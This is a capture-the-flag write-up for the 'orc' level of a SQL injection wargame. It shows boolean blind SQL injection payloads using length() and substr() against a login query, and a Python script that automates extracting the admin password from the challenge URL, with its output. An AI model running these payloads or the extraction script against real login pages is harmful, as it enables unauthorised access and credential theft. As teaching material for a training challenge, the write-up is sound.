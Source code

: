 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 4
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/3fb3ba7d-5c3a-40cc-8b3a-8dcd16ebe014)

We are provided with the SQL query:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='{$_GET[pw]}'
```

The code performs two conditional checks:

1. `if($result['id'])`: It checks if the statement is `True`. If yes, it prints the following message: `Hello admin`
2. `if(($result['pw']) && ($result['pw'] == $_GET['pw']))`: It then checks if the `pw` that is provided is correct. If yes, it prints the flag.


In order to print out the flag, we need to first know the password. For that we have to perform a Blind SQL Injection.

## Blind SQL Injection

First we have to reveal the length of the flag.

### Retrieving the password length

If we provide the following URI parameter:

```
?pw=' OR id='admin' AND length(pw)=1 -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND length(pw)=1 -- -'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND length(pw)=1

## Commented part:
'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/d0e5928c-c2a2-4355-a6a2-af11d1804556)

Since the `Hello admin` message is not printed, we know that the resultant query did not result in `True`.
That tells us that the length of the `pw` column is more than 1.

If we keep increasing the length and provide the following URI parameter:

```
?pw=' OR id='admin' AND length(pw)=8 -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND length(pw)=8 -- -'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND length(pw)=8

## Commented part:
'
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/9e438378-10e1-4f7a-9353-bdf75700825d)

Since the `Hello admin` message is printed, we know that the resultant query resulted in `True`.
That tells us that the length of the `pw` column is 8.

### Leaking the password

Next, we can leak the password byte by byte using the `substr()` function.

#### `substr()`

![4](https://github.com/Kunull/Write-ups/assets/110326359/e332b358-2371-4f97-a9be-e1e5afce6f68)

If we provide the following URI parameter:

```
?pw=' OR id='admin' AND substr(pw, 1, 1)='0' -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 1, 1)='0' -- -'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 1, 1)='0'

## Commented part:
'
```

![5](https://github.com/Kunull/Write-ups/assets/110326359/d479be75-0818-47a3-8d89-991e9dcd1926)

Since the `Hello admin` message is printed, we know that the resultant query resulted in `True`.
That tells us that the first character of the `pw` for `id=admin` is `0`.

We can now move onto the second character:

```
?pw=' OR id='admin' AND substr(pw, 2, 1)='0' -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 2, 1)='0' -- -'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 2, 1)='0'

## Commented part:
'
```

![6](https://github.com/Kunull/Write-ups/assets/110326359/557a333a-920a-485b-926b-e87bfbf8b8f4)

Since the `Hello admin` message is not printed, we know that the resultant query did not result in `True`.
That tells us that the second character of the `pw` for `id=admin` is not `0`.

We can try other characters moving up to the following:

```
?pw=' OR id='admin' AND substr(pw, 2, 1)='9' -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 2, 1)='9' -- -'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 2, 1)='9'

## Commented part:
'
```

![7](https://github.com/Kunull/Write-ups/assets/110326359/e9d938ad-34aa-4f07-8e9b-167b5d1ec34d)

Since the `Hello admin` message is printed, we know that the resultant query resulted in `True`.
That tells us that the second character of the `pw` for `id=admin` is `9`.

We can keep repeating this process until we get all the eight characters of the `admin` password:

```
095a9852
```

### Script

We can automate the entire process using a script.

```py title="orc_script.py"
import requests
import urllib.parse
import string

cookies = {'PHPSESSID': 'jkvees84mr4jq3nallg9rum7he'}
url = "https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php"
password_length = 0

for x in range(0, 10):
  payload = f"' OR id='admin' AND length(pw)={x} -- -"
  encoded_payload = urllib.parse.quote_plus(payload)
  full_url = f"{url}?pw={encoded_payload}"
    
  response = requests.get(full_url, cookies=cookies)
    
  if "Hello admin" in response.text:
    password_length = x
    break

print()    
print(f"[!] Payload: ?pw={payload}")
print(f"[!] Payload (URL encoded): ?pw={encoded_payload}")
print(f"[!] Password length: {password_length}")

password = ""
searchspace = string.digits + string.ascii_letters

for index in range(1, password_length + 1):
  for char in searchspace:
    payload = f"' OR id='admin' AND substr(pw, {index}, 1)='{char}' -- -"
    encoded_payload = urllib.parse.quote_plus(payload)
    full_url = f"{url}?pw={encoded_payload}"

    response = requests.get(full_url, cookies=cookies)

    if "Hello admin" in response.text:
      password += char
      print()
      print(f"[+] Payload: ?pw={payload}")
      print(f"[+] Payload (URL encoded): ?pw={encoded_payload}")
      print(f"[+] Character at index {index}: {char}")
      break

print()
print(f"[!] Extracted password: {password}")
print(f"[!] Final payload: ?pw={password}")
```

```
$ python .\orc_script.py

[!] Payload: ?pw=' OR id='admin' AND length(pw)=8 -- -
[!] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+length%28pw%29%3D8+--+-
[!] Password length: 8

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 1, 1)='0' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+1%2C+1%29%3D%270%27+--+-
[+] Character at index 1: 0

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 2, 1)='9' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+2%2C+1%29%3D%279%27+--+-
[+] Character at index 2: 9

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 3, 1)='5' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+3%2C+1%29%3D%275%27+--+-
[+] Character at index 3: 5

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 4, 1)='a' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+4%2C+1%29%3D%27a%27+--+-
[+] Character at index 4: a

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 5, 1)='9' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+5%2C+1%29%3D%279%27+--+-
[+] Character at index 5: 9

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 6, 1)='8' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+6%2C+1%29%3D%278%27+--+-
[+] Character at index 6: 8

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 7, 1)='5' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+7%2C+1%29%3D%275%27+--+-
[+] Character at index 7: 5

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 8, 1)='2' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+8%2C+1%29%3D%272%27+--+-
[+] Character at index 8: 2

[!] Extracted password: 095a9852
[!] Final payload: ?pw=095a9852
```

Now, we can provide password URI parameter:

```
?pw=095a9852
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='095a9852'
```

![8](https://github.com/Kunull/Write-ups/assets/110326359/ef9ae213-af29-4450-8d2e-34d02565e928)
